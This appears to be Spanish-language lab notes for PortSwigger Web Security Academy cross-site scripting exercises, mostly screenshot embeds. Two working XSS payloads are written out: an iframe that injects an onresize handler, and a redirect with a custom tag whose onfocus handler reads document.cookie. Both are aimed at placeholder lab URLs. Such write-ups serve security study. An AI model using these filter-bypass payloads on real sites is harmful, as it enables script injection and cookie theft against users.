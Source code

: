 # XSS de DOM almacenado

![[01.XSS_DOM_Almacenado.png]]
![[02.XSS_DOM_Almacenado.png]]
![[03.XSS_DOM_Almacenado.png]]

# XSS reflejado en contexto HTML con la mayoría de las etiquetas y atributos bloqueados

![[01.AtributosBloqueados.png]]
![[02.AtributosBloqueados.png]]
![[03.AtributosBloqueados.png]]
![[04.AtributosBloqueados.png]]
![[05.AtributosBloqueados.png]]
![[06.AtributosBloqueados.png]]
![[07.AtributosBloqueados.png]]

1. `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`

![[08.AtributosBloqueados.png]]

# XSS reflejado en contexto HTML con todas las etiquetas bloqueadas excepto las personalizadas

```js
<script> location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>
```
![[01.XSS_EtiquetasBloqueadas.png]]
![[02.XSS_EtiquetasBloqueadas.png]]

# XSS reflejado con algún marcado SVG permitido

![[01.SVG_Permitido.png]]
![[02.SVG_Permitido.png]]
![[03.SVG_Permitido.png]]
![[04.SVG_Permitido.png]]
![[05.SVG_Permitido.png]]
![[06.SVG_Permitido.png]]
![[07.SVG_Permitido.png]]
![[08.SVG_Permitido.png]]
![[09.SVG_Permitido.png]]
